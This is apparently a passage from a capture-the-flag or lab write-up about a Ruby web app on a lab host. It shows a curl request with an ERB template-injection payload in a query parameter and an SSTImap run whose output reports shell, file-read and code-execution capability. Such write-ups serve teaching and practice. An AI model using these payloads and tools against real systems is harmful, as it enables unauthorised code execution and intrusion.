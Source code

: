 ```bash
|     color: #F0F0F0;
|     background: #C00;
|_    padding:
```

# Port 3000 HTTPS

We can start taking by a look at port 3000.

We have a website for hacker tools, the website offers a list of hacking tools.
By clicking the tool, we got redirected to `/products/show/<id_number>`

If we insert an invalid path we get the Ruby error page that leaks all the other routes

![Ruby error page](./pics/error_page.png)

Now that we know that it is a Ruby application we can test some common web attack vectors.

From the item research section we can see that we are making a get request to `https://192.168.1.60:3000/search?query=a&message=Product+does+not+exist`

## SSTI

Initially i tested the query paramether for SQL injection, but got no luck, after that i noticed that the message paramether is reflected to the page, so i tried some Server Side Template Injection.

If we send the following request:
```bash
curl 'https://192.168.1.60:3000/search?query=ab&message=%3C%25=%207*7%20%25%3E'
```

We can see the output in our browser by saving the request:

![ssti](./pics/ssti.png)

Now that we know the server is vulnerable to SSTI, we can try to automate the exploit and get a shell.
To do that i'll use [SSTImap](https://github.com/vladko312/SSTImap):
```bash
python3 sstimap.py -u 'https://192.168.1.60:3000/search?query=ab&message=*'
```
We got lucky:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
```